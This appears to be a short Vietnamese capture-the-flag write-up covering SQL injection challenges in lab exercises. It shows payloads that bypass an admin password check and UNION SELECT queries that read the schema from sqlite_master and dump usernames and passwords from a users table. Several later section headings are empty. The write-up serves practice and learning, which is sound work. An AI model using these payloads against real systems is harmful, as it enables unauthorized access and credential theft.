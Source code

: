 ### [SQL Injection - Authentication]()


Ta đơn giản sử dụng payload *username = admin’--* để bypass qua phần password của admin.


Sau đó mở source code để check password, pass cũng chính là flag.




### [SQL injection - String]()

Đầu tiên ta sử dụng 1 payload để server trả về lỗi systax hoặc lỗi gì đó để xác định version của server sql. Trong trường hợp này SQLite3 


Dùng payload như sau để xác định số cột trong database 1’ order by 1-- và tăng dần cho đến khi trả về lỗi. Lần này số cột sẽ là 2.


Ta lấy tên bảng bằng cách truy vấn. Với SQLite3 ta gõ lệnh sau: 
```
1' union select 1,sql from sqlite_master--
```



```
1’ union select username,password FROM users--
```


### [SQL injection - Numeric]()

Ta sử dụng tương tự các payload tương tự như trên để xác định các thành phần cơ bản như trên của server.







```
1 union select 1,2,3--
```


```
1 union select 1,username,password FROM users--
```



### [SQL Injection - Routed]()

### [SQL Injection - File reading]()




### [SQL Injection - Blind]()
